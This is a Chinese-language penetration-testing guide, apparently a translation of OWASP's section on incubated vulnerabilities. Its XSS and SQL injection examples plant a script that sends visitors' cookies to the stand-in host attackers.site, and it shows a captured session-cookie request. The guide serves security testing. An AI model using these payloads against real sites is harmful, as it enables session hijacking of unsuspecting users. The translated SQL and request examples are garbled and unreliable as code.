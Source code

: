 ID:WSTG-INPV-14

### 摘要

孵化测试通常也称为持久攻击，它是一种复杂的测试方法，需要多个数据验证漏洞才能起作用。孵化的漏洞通常用于对合法Web应用程序的用户进行“水坑”攻击。

孵化的漏洞具有以下特征：
- 首先，必须将攻击媒介持久化，并将其存储在持久层中，并且仅当存在弱数据验证或数据通过其他渠道传送至系统时才能发生。其它渠道诸如管理控制台、直接地后台批处理过程等。
- 其次，一旦攻击向量被回调（recalled），该向量需要成功执行。例如，孵化的XSS攻击需要弱输出验证，因此脚本将以其可执行形式传递给客户端。


利用某些漏洞，甚至是Web应用程序的功能，攻击者能够植入一段数据，这些数据随后由毫无戒心的用户或系统的其他组件获取，并利用系统中的某些漏洞。

在渗透测试中，孵化的攻击可以使用特定安全问题来构建基于客户端的攻击，该漏洞通常用于同时针对大量受害者。

这种类型的异步攻击涵盖了广泛的攻击向量，其中包括：
- Web应用程序中的文件上传组件，允许攻击者上传有问题的媒体文件（利用jpg图像，利用CVE-2004-0200png图像CVE-2004-0597，可执行文件，具有活动组件的网站页面等）
- 公共论坛帖子中的XSS。攻击者可能潜在地将恶意脚本或代码存储在Web应用程序后端（例如数据库）的存储库中，从而使该脚本/代码由用户之一（最终用户，管理员等）执行。通过在用户论坛，公告板或博客中使用跨站点脚本漏洞来示例性地进行孵化攻击，以便在易受攻击的页面上注入一些JavaScript代码，并最终在站点用户的浏览器中呈现并执行-使用用户浏览器上原始（脆弱）网站的信任级别。
- SQL / XPATH注入允许攻击者将内容上载到数据库，稍后会将其作为网页中活动内容的一部分进行检索。例如，如果攻击者可以在公告板上发布任意JavaScript，以便用户执行它，那么他可以控制他们的浏览器（例如XSS-proxy）。
- 配置错误的服务器允许安装Java软件包或类似的网站组件（例如Tomcat，或Web托管控制台，例如Plesk，CPanel，Helm等）

### 测试方法
#### 黑匣子测试
##### 文件上传示例

验证允许上传到Web应用程序的内容类型以及上传文件的结果URL。上传一个文件，当用户查看或下载该文件时，它将利用本地用户工作站中的组件。向您的受害者发送电子邮件或其他类型的警报，以使他（她）浏览页面。预期的结果是，当用户浏览生成的页面或从受信任的站点下载并执行文件时，将触发漏洞利用。

##### 公告板上的XSS示例
1.将JavaScript代码植入易受攻击字段值中，例如： ```<script>document.write('<img src="http://attackers.site/cv.jpg?'+document.cookie+'">')</script>```

2.引导用户浏览易受攻击的页面或等待用户浏览它。让attackers.site主机上的“侦听器” 侦听所有传入的连接。

3.当用户浏览易受攻击的页面时，包含其cookie（document.cookie）的请求将被发送到attackers.site主机，例如：
```
GET /cv.jpg?SignOn=COOKIEVALUE1;%20ASPSESSIONID=ROGUEIDVALUE;
    ％20JSESSIONID = ADIFFERENTVALUE：-1;％20ExpirePage = https：//vulnerable.site/site/;
    令牌= 28_Sep_2006_21：46：36_GMT HTTP / 1.1
```

4.使用获得的Cookie来冒充易受攻击站点的用户。

##### SQL注入示例
通常，这组示例通过利用SQL注入漏洞利用XSS攻击。要测试的第一件事是目标站点是否具有SQL注入漏洞。测试SQL注入中对此进行了描述。对于每个SQL注入漏洞，都有一组底层约束来描述允许攻击者/笔测试者执行的查询的类型。

然后，测试人员必须将他设计的XSS攻击与允许插入的条目进行匹配。

1.以与先前XSS示例类似的方式，使用易受SQL注入问题影响的网页字段来更改数据库中的值，该值将由应用程序用作输入，以在未经适当过滤的情况下显示在站点上（这将是SQL注入和XSS问题的组合）。例如，假设footer数据库中有一个表，其中包含网站页面的所有页脚，其中包括一个notice带有法律声明的字段，该字段显示在每个网页的底部。您可以使用以下查询将JavaScript代码注入数据库中表的notice字段中footer。
```sql
SELECT  FIELD1，FIELD2，字段3 `
  FROM TABLE_X 
 WHERE FIELD2 = 'X'; 
    UPDATE页脚
    SET通知= '版权1999至2030年％20 
        <SCRIPT>文件撰写（\' <IMG SRC = “http://attackers.site/cv.jpg？\ ' +的document.cookie + \' ”> \”）</ script>' 
    WHERE notice ='Copyright 1999-2030';
```
2.现在，每个浏览该站点的用户都将以静默方式将其cookie发送到attackers.site（步骤b.2至b.4）。
